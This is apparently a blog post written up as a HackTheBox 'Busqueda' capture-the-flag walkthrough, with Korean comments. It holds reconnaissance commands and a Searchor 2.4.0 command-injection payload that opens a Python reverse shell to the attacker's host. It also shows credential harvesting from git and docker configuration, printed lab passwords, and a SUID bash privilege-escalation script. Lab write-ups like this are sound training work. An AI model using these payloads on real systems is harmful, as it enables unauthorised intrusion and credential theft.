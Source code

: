 ```yaml
---
layout: post
title: HackTheBox Busqueda
subtitle: Busqueda WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - Linux
sidebar:
---
```



## Summary
![](/assets/images/posts/2025-03-21-Busqueda/a73dbffe4ae24d783de043ae29185d39_MD5.jpeg)
## Target - 10.129.228.217
### Nmap
```bash
nmap -sC -sV -Pn -p- -oN Busqueda 10.129.228.217
```
![](/assets/images/posts/2025-03-21-Busqueda/b3817d553dd4d22d16cf8b0efa0f03c2_MD5.jpeg)
### WEB
```bash
# host 등록
echo "10.129.228.217 searcher.htb" | sudo tee -a /etc/hosts

# dir fuzz
gobuster dir -u searcher.htb -w /usr/share/wordlists/dirb/common.txt

# subdomain fuzz
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.searcher.htb" -u http://searcher.htb -fc 302

# opensource version
searchor 2.4.0
```
![](/assets/images/posts/2025-03-21-Busqueda/ae88064ccb2df41d3a185b7b1dd63698_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/d527baf6f626258ec6a5aefbdfb75d0f_MD5.jpeg)

### Searchor 2.4.0 Exploit
```bash
# https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
'),exec('import+socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.36",8000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")')#
```
![](assets/images/posts/2025-03-21-Busqueda/116033061580fae80a50f281c20e5c3c_MD5.jpeg)

### Privilege Escalator
```bash
# upgrade tty
python3 -c 'import pty; pty.spawn("/bin/bash")'

# 숨김 파일 찾기 
find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null | grep svc

# cody == svc
cat /home/svc/.gitconfig

# web group 파일들 찾기
find / -group www-data -exec ls -ldb {} \; 2>/dev/null

# git config 열람
cat /var/www/app/.git/config

# svc : jh1usoih2bkjaspwe92
sudo -l
sudo /usr/bin/python3 /opt/scripts/system-checkup.py -h

# docker inspect : https://docs.docker.com/engine/cli/formatting/
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq .
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' mysql_db | jq .

# mysql connect gitea : yuiu1hoiu4i5ho1uh
mysql -u gitea -pyuiu1hoiu4i5ho1uh -h 172.19.0.3 gitea

## in mysql
select name, email, passwd from user;

# in web
## administrator : yuiu1hoiu4i5ho1uh / 재사용 되는 지 확인
echo "10.129.228.217 gitea.searcher.htb" | sudo tee -a /etc/hosts
http://gitea.searcher.htb/cody/Searcher_site.git

# full-checkup 로직 확인 및 Abuse
```

```sh
#!/bin/bash 
cp /bin/bash /tmp/0xdf 
chmod 4777 /tmp/0xdf
```
![](/assets/images/posts/2025-03-21-Busqueda/9fbef62124fd4ea70270d25a9e5c24cf_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/19944986f62535d922b99895ec6831b6_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/83b4b2d1100c52bec7b0a8012af85436_MD5.jpeg)

![](/assets/images/posts/2025-03-21-Busqueda/04811c4fabbd651f3e83a6235188d013_MD5.jpeg)

![](/assets/images/posts/2025-03-21-Busqueda/664165d9e5013cf703cb01bb113f3af9_MD5.jpeg)![](/assets/images/posts/2025-03-21-Busqueda/1ea6a57afc343c3fef42ed16746a7e30_MD5.jpeg)
![](assets/images/posts/2025-03-21-Busqueda/9d0cfd2413ed62917f246c9ddb5ec3b6_MD5.jpeg)
![](assets/images/posts/2025-03-21-Busqueda/5e3b73d1e6163d460302eb52671092d4_MD5.jpeg)
![](assets/images/posts/2025-03-21-Busqueda/65ff7bcd2b912a2a00de613dc6410d87_MD5.jpeg)
![](assets/images/posts/2025-03-21-Busqueda/9429e95a836018be908e461439bff6b7_MD5.jpeg)![](assets/images/posts/2025-03-21-Busqueda/489bc426f4f2e98d390eadad6483fc11_MD5.jpeg)
